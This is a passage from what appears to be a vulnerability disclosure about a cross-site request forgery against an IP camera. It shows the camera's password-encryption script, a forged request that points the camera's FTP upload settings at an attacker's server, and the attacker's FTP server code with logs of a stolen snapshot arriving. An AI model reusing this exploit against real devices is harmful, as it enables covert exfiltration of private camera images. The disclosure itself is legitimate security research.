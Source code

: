 ~~~
function EncryptPass(input, privatekey)	{
    var input_hex = str2hexstr(input);
    var privatekey_hex = str2hexstr(privatekey);
    var encrypted = AES_Encrypt128(input_hex, privatekey_hex);
    return encrypted;
}
~~~

The request sent after the victim visits the web site is shown below (notice the
referer-header).

~~~
POST /setSystemFTP HTTP/1.1
Host: 192.168.0.16
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:55.0) Gecko/20100101 Firefox/55.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 394
Referer: http://192.168.0.16.example.com/
Authorization: Basic YWRtaW46
Connection: close

ReplySuccessPage=upload.htm&ReplyErrorPage=errrftp.htm&FTPScheduleEnable=0&FTPScheduleDay=0&
	FTPCreateFolderInterval=0&SessionKey=1&FTPHostAddress=192.168.0.15&FTPPortNumber=2121&
	FTPUserName=user&FTPPassword=[password enciphered]&FTPDirectoryPath=%2F&
	FTPPassiveMode=1&ConfigSystemFTP=+Save+
~~~

Running on port 2121 is the following code:

~~~
$ cat ftp.py 
#!/usr/bin/env python

from pyftpdlib import servers
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.authorizers import DummyAuthorizer

authorizer = DummyAuthorizer()
authorizer.add_user("user", "password", ".", perm='elradfmwM')
handler = FTPHandler
handler.authorizer = authorizer

address = ("0.0.0.0", 2121)
server = servers.FTPServer(address, handler)
server.serve_forever()
~~~

After the request has been sent, the following will happen.

~~~
$ python ftp.py 
[I 17-08-29 21:27:18] >>> starting FTP server on 0.0.0.0:2121, pid=6236 <<<
[I 17-08-29 21:27:18] poller: <class 'pyftpdlib.ioloop.Epoll'>
[I 17-08-29 21:27:18] masquerade (NAT) address: None
[I 17-08-29 21:27:18] passive ports: None
[I 17-08-29 21:27:18] use sendfile(2): True
[I 17-08-29 21:28:42] 192.168.0.16:4830-[] FTP session opened (connect)
[I 17-08-29 21:28:42] 192.168.0.16:4830-[user] USER 'user' logged in.
[I 17-08-29 21:28:42] 192.168.0.16:4830-[user] STOR ./DCS2016010100020001.jpg completed=1
	bytes=5065 seconds=0.01
~~~
